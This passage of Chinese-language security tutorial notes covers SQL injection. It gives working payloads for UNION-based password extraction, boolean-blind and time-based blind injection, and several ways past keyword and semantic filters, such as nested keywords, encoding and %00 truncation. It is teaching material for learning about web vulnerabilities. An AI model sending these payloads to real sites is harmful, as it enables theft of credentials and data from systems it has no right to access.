 ```sql
获取所有数据库信息，以此类推

获取到表、列名后，可以获取其他数据。这里以users表中的passwd字段为例
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(passwd), 2, 3 FROM users;
如果想要分行获取，也可以借助LIMIT
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT passwd, 2, 3 FROM users LIMIT 0, 1;

```

##### 无回显的注入

- 提取字符进行判断
```sql
例如传入uname=a' or ASCII(SUBSTR(DATABASE(), 1, 1))>0#
SQL语句变为
SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR(DATABASE(), 1, 1))>0#'
返回User Found，说明DATABASE()的第一位的ASCII码>0
多次重复即可得到数据

也可以查找其他表的数据
SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR((SELECT GROUP_CONCAT(passwd) FROM users), 1, 1))>0#'
道理是一样的
```
- 利用延时
```sql
IF(condition, expr1, expr2)
如果condition为真就执行expr1，反之执行expr2

和SLEEP()配合，就能通过测量响应时间来获取数据！

SELECT col_name(…) FROM table_name WHERE username = 'admin' and IF(ASCII(SUBSTR(DATABASE(), 1, 1))>0, SLEEP(0), SLEEP(2))#'

如果延时超过2秒，说明条件为假，反之为真
```
##### 绕过

针对关键字/正则匹配

1. 大小写
2. 利用等价命令 比如 OR->||, SPACE->/**/, ORDER BY->GROUP BY …
3. 如果只是单纯删去关键字，且只删一次，可以嵌套绕过，比如UNION是关键字会被删除，那么传入UNUNIONION就会被删成UNION，从而注入

针对语义匹配
相对难度较大，只能利用语言特性把语义检测绕晕。常见办法是嵌套注释符让其以为全部内容都被注释了。

奇技淫巧：
1. 超长字符串绕过
2. 多次编码(需要服务端有相应解码功能)
3. %00截断/换行截断
4. 改变请求方式 GET->POST, ?a=1 -> /a/1
